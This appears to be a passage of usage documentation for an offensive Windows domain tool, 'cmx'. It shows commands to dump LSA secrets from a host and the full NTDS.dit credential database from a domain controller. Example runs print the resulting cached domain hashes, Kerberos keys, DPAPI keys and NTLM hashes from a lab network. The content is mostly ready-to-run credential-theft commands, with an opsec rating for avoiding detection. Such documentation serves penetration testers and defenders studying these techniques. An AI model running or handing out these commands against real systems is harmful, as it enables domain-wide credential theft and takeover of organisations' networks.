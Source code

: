 ------------------------------------------------------------------------
### \*Dump LSA secrets using methods from secretsdump.py 

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| true          | false       | true        | false       | true*      |

```
#~ cmx smb 10.10.33.123 -u agrande -p User\!23 --lsa

Aug.20.19 15:53:43  SMB         10.10.33.123:445  10.10.33.123 [*] Windows 6.1 Build 7601 x64 (domain:OCEAN) (signing:True) (SMBv:2.1)
Aug.20.19 15:53:43  SMB         10.10.33.123:445  10.10.33.123 [+] OCEAN\agrande:User!23 (Pwn3d!)
Aug.20.19 15:53:43         [!] Dumping LSA Secrets [!]
Aug.20.19 15:53:45  OCEAN.DEPTH/agrande:$DCC2$10240#agrande#6ee787a8c20b17e48fde84e8af8d1674
Aug.20.19 15:53:45  OCEAN.DEPTH/ozzy:$DCC2$10240#ozzy#c2d829b4ae6ca6dba48ea7fa9986ee19
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:aes256-cts-hmac-sha1-96:d7b6c0a0913d3c1b155d5cb1cede486611539bf320a459a32c63116598c9b7b0
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:aes128-cts-hmac-sha1-96:2a085aa1630ce804a0d78c9cddd55bc2
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:des-cbc-md5:d368c1c20898f44f
Aug.20.19 15:53:46  OCEAN\WIN7E-PC$:aad3b435b51404eeaad3b435b51404ee:2d3b04ef5f2dee295d2ba35ab55e2147:::
Aug.20.19 15:53:46  dpapi_machinekey:0xd61ff0e849d40a2705d6d2da6dd26bddfa830ef5
dpapi_userkey:0xa142738f797c7b20b096fddfef2eeff0dce96da6
Aug.20.19 15:53:46  NL$KM:e8b744812f400fb5041390eb16f23eeb8448799fac5d1802d618a96f4051b00db12202e6eb586f97e0c561df6477e4e6312ec55070ac4a7807a47b98fb3db947
Aug.20.19 15:53:46         [!] Saved 8 LSA secrets to /root/.cmx/logs/WIN7E-PC_10.10.33.123_2019-08-20_155343.secrets [!]
```

------------------------------------------------------------------------
### \*\*\*Dump the NTDS.dit from target DC using methods from secretsdump.py   

| Multiple_Host | Requires DC | Requires LA | Requires DA | Opsec_safe |
|---------------|-------------|-------------|-------------|------------|
| false         | false       | true        | false       | true*      |

The TARGET must be a domain controller.  
  
2 methods are available: 

drsuapi   (default)   
Uses drsuapi RPC interface create a handle, trigger replication, and combined with     
additional drsuapi calls to convert the resultant linked-lists into readable format  

vss - Uses the Volume Shadow copy Service    

```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds vss
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds
```
Example Run:
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds

Aug.20.19 15:56:43  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)             
Aug.20.19 15:56:43  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)                                                    
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...                             |
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b:::            
Aug.20.19 15:56:44  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                    
```